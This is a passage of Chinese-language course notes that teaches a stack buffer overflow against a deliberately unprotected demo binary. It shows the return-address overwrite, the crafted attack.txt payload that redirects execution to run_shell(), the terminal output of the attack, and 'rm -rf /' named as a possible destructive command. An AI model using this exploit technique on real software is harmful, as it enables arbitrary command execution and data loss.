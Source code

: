 但如果用户提供超过99个字符的输入字符串（注意缓冲区还需要留出终止空字符）？函数会继续写入，从而覆盖栈上与buf相邻的内容。

根据之前的图示，我们知道buf位于checksum的栈帧中，在`entry %rsp`之下。而紧邻`entry %rsp`上方的正是返回地址！
本例中这个地址指向main()。因此，如果checksum越界写入buf，就会覆盖栈上的返回地址；如果继续写入，还会覆盖main函数栈帧中的数据。

为什么覆盖返回地址很危险？这意味着攻击者可以诱导程序执行任意函数。
在attackme.cc中，注意run_shell()函数会将字符串作为shell命令执行——这具有极大的危害潜力。

如果能用用户提供的字符串触发该函数，就可以在shell中打印大量悲伤表情，或者更危险地执行像rm -rf /这样删除用户所有数据的命令！

使用禁用现代编译器防护机制的./attackme.unsafe测试时，正常输入表现如下：

```
$ ./attackme.unsafe hey yo CS131
hey: checksum 00796568, sha1 7aea02175315cd3541b03ffe78aa1ccc40d2e98a -
yo: checksum 00006f79, sha1 dcdc24e139db869eb059c9355c89c382de15b987 -
CS131: checksum 33315374, sha1 05ab4d9aea4f9f0605dc4703ae8cfc44aab7a5ef -
```

但传入超长字符串时会出现异常：
```
$ ./attackme.unsafe sghfkhgkfshgksdhrehugresizqaugerhgjkfdhgkjdhgukhsukgrzufaofuoewugurezgureszgukskgreukfzreskugzurksgzukrestgkurzesi
Segmentation fault (core dumped)
```

崩溃原因是checksum()的返回地址被字符串中的垃圾数据覆盖，导致无效地址。

但如果我们计算出有效地址并精准定位到字符串中的特定位置呢？

这就是attack.txt中的攻击原理。
通过GDB调试，我确定编译版本中 run_shell 函数的地址是0x400734（位于可执行文件的代码段）。
attack.txt包含精心构造的"攻击载荷"，将0x400734这个值精准写入栈的特定位置。
这个攻击载荷长度为115字符：其中100字符用于溢出buf，3字节存放恶意返回地址，12字节额外填充以满足x86-64 Linux栈帧的16字节对齐要求。

attack.txt:

```
echo OWNED 1>&2
echo OWNED 1>&2
echo OWNED 1>&2
echo OWNED 1>&2
echo OWNED 1>&2
echo OWNED 1>&2
echo OWNED 1>&2
4@
```

执行攻击的结果如下：

```
$ ./attackme.unsafe "$(cat attack.txt)"
OWNED
OWNED
OWNED
OWNED
OWNED
OWNED
sh: 7: ��5��: 未找到
Segmentation fault (core dumped)
```
